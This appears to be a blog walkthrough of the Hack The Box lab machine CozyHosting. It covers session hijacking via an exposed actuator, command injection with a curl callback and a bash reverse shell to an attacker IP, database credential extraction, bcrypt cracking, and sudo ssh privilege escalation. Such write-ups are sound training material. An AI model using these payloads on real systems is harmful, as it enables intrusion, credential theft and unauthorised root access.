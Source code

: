 ```yaml
---
title: HTB-CozyHosting
date: 2024-10-31 10:03:30
tags:
- HTB
---
```


# #Nmap #
Let's run an Nmap scan to discover any open ports on the remote host.
`sudo nmap -Pn -sC -sV -O -T3 -p- 10.10.11.230 -oN nmap_scan`

```
Nmap scan report for 10.10.11.230
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap shows that there are 2 ports open `22` and `80`. Also the domain is `cozyhosting.htb`
so we add the domain to our `/etc/hosts`
```
echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

# #Webiste #

Login page http://cozyhosting.htb/login

After running `dirsearch -u http://cozyhosting.htb/"` we found an endpoint
http://cozyhosting.htb/actuator

The endpoint revealed some good info
http://localhost:8080/actuator/sessions
http://localhost:8080/actuator/beans
http://localhost:8080/actuator/health
http://localhost:8080/actuator/health/{*path}
http://localhost:8080/actuator/env
http://localhost:8080/actuator/env/{toMatch}
http://localhost:8080/actuator/mappings

# #Endoint /actuator/sessions #
```
{"DAD1A0B9921669A3828FC1BE56330CBD":"kanderson"}
```
The `DAD1A0B9921669A3828FC1BE56330CBD` is the cookie for kanderson so we can change our cookie and hijack the session. After we change the cookie we can go to the /admin panel (we can find it from the /actuator/mappings endpoint)

![Cookie](/images/CozyHosting/Ch(cookie).png)

# #Admin Dashboard #

![Adm_Panel](/images/CozyHosting/Ch(Adm_Pan).png)

At the bottom of the page we see a form that require's a hostname and username for
automatic patching. We try to submit hostname as `127.0.0.1` and username as `test` but we get an error "Host key verification failed."

![Form](/images/CozyHosting/Ch(Form).png)

Probably this means that a service attempts to use ssh to connect to the hostname and username we provide above. As we don't need to provide any passwords it uses a id_rsa so the command that the service runs is "ssh -i id_rsa username@hostname"

After some testing I found out that the username does not allow spaces but we can use ${IFS} to bypass that. A simple way to see if the command injection works it to curl a python server that we will host

```
python3 -m http.server 8888
```

Then we will try to curl our python server and see if we get a callback
`test;curl${IFS}http://10.10.14.15:8888;`

![Curl Form](/images/CozyHosting/Ch(Form_Curl).png)
![Call_Back](/images/CozyHosting/Ch(Callback).png)

Now we can generate a shell and upload it to the machine

```
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.15/1234 0>&1' > rev.sh
```

after creating the rev.sh and our python server is running we start out netcat listener

```
nc -lvnp 1234
```

![Curl_Shell](/images/CozyHosting/Ch(Form_Shell).png)

And we execute a curl command pointing to the rev.sh we created
We got a shell, we can upgrade our shell with running
 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Shell_APP](/images/CozyHosting/Ch(Shell_App).png)
# #Lateral Movement #

We extract the .jar to tmp
```
unzip -d /tmp/app cloudhosting-0.0.1.jar
```
Inside there after some searching around we can find a application.properties that reveals credentials for a postgresql database.

```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

We can see that a postgresql is running on 5432 and we have creds `postgres:Vg&nvzAQ7XxR`. Using the command `psql -h 127.0.0.1 -U postgres` to log in we use `\list` to list all of the database and we see a `cozyhosting` that looks interesting so we connect to it
```
\connect cozyhosting
```
There are 2 tables one with users and one with hosts we use a simple command to dump the users table.

![Tables](/images/CozyHosting/Ch(Tables).png)

```
select * from users;
```
The admin hash is `$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm`

# #Cracking The hash #

To identify the hash we use `hashid $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm` or `hash-identifier` the hash it a bcrypt so after looking for the correct hashcat mode
we save the hash into a file and use hashcat with mode `3200`.

```
hashcat hash -m 3200 /usr/share/wordlists/rockyou.txt
```

![Hashcat](/images/CozyHosting/Ch(Hashcat).png)
The hash cracked to `manchesterunited` and in the home directory we have seen a user `josh` so we will try to ssh with josh and `manchesterunited`.
```
ssh josh@10.10.11.230
```
the flag is on `/home/josh/user.txt`
# #Privilege Escalation #

We run `sudo -l` and provided the `manchesterunited` as password and we see that we can execute the `/usr/bin/ssh` with sudo.
```
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
with root priv 
```
After a quick search on gtfo bins https://gtfobins.github.io/gtfobins/ssh/ we found that we can run:
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
and get a root shell, the flag is on `/root/root.txt`
